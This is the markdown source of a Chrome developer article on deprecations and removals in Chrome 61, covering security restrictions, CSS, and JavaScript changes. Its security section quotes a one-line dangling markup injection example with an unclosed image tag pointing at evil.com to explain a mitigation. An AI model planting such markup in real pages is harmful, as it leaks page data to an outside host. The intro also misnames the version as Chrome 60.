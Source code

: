 project_path: /web/_project.yaml
book_path: /web/updates/_book.yaml
description: A round up of the deprecations and removals in Chrome 61 to help you plan. In this version, security improvements, further webkit deprecations, and more.

{# wf_updated_on: 2017-08-04 #}
{# wf_published_on: 2017-08-03 #}
{# wf_tags: deprecations,removals,chrome61 #}
{# wf_featured_image: /web/updates/images/generic/warning.png #}
{# wf_featured_snippet: A round up of the deprecations and removals in Chrome 61 to help you plan. In this version, more restrictions on insecure origins and a change to the shadow-piercing descendant combinator. #}

# Deprecations and Removals in Chrome 61 {: .page-title }

{% include "web/_shared/contributors/josephmedley.html" %}

In nearly every version of Chrome, we see a significant number of updates and
improvements to the product, its performance, and also capabilities of the Web
Platform. This article describes the deprecations and removals in Chrome 60,
which is in beta as of June 8. This list is subject to change at any time.

## Security and Privacy

### Block resources whose URLs contain '\n' and '&lt;' characters.

There is a type of hacking called *dangling markup injection* in which a
truncated URL is used to send data to an external endpoint. For example,
consider a page containing `<img src='https://evil.com/?`. Because the URL has no
closing quote, browsers will read to the next quote that occurs and treat the
enclosed characters as if it were a single URL.

Chrome 61 mitigates this vulnerability by restricting the character sets
allowed in `href` and `src` attributes. Specifically, Chrome will stop
processing URLs when it encounters new line characters (`\n`) and less than
characters (`<`).

Developers with a legitimate use case for new line and less than characters in a
URL should instead escape these characters.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/KaA_YNOlTPk/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/5735596811091968) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=680970)

## Remove usage of notifications from insecure iframes

Permission requests from iframes can confuse users since it is difficult to
distinguish between the containing page's origin and the origin of the iframe
that is making the request. When the requests scope is unclear, it is difficult
for users to judge whether to grant or deny permission.

Disallowing notifications in iframes will also align the requirements for
notification permission with that of push notifications, easing friction for
developers.

Developers who need this functionality can open a new window to request
notification permission.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/n37ij1E_1aY/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/6451284559265792) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=695693) 


## Deprecate and remove Presentation API on insecure contexts

It's been found that on insecure origins, the Presentation API can be used as a
hacking vector on insecure origins. Since displays don't have address bars the
API can be used to spoof content. It's also possible to exfiltrate data from
running presentation.

In aligning with Blink’s intention to [remove powerful features on insecure
origins](https://www.chromium.org/Home/chromium-security/
deprecating-powerful-features-on-insecure-origins), we plan to deprecate and
remove support for the Presentation API on insecure contexts. Starting in Chrome
61, `PresentationRequest.start()` will no longer function on insecure origins.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/lumj0lVdtHA/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/5766218384408576) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=733381)


## CSS

### Make shadow-piercing descendant combinator behave like descendent combinator

Note: This change was originally slated for Chrome 60, but was bumped after
Chrome 60 removals were published.

The shadow-piercing descendant combinator (`>>>`), part of
[CSS Scoping Module Level 1](https://drafts.csswg.org/css-scoping/)
, was intended to match the children of a particular ancestor element
even when they appeared inside of a shadow tree. This had some limitations.
First, [per the spec](https://drafts.csswg.org/css-scoping/#deep-combinator), it
could only be used in JavaScript calls such as `querySelector()` and did not
work in stylesheets. More importantly, browser vendors were unable to make it
work beyond one level of the Shadow DOM.

Consequently, the descendant combinator has been removed from relevant specs
including Shadow DOM v1. Rather than break web pages by removing this selector
from Chromium, we've chosen instead to alias the shadow-piercing descendent
combinator to the descendant combinator. The original behavior was
[deprecated in Chrome 45](https://www.chromestatus.com/features/6750456638341120).
The new behavior is implemented in Chrome 61.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/HX5Y8Ykr5Ns/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/4964279606312960) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=489954)

## JavaScript

### Disallow defining of indexed properties on windows

Previously some browsers allowed for JavaScript assignments like the following:

    window[0] = 1;

The [current HTML spec 
notes](https://html.spec.whatwg.org/multipage/window-object.html#windowproxy-defineownproperty)
that this is an explicit violation of
the JavaScript spec. As such, this ability is removed in Chrome 61. As of
February 2016, Firefox is already in compliance.

[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=695385)

<<../../_deprecation-policy.md>>

{% include "comment-widget.html" %}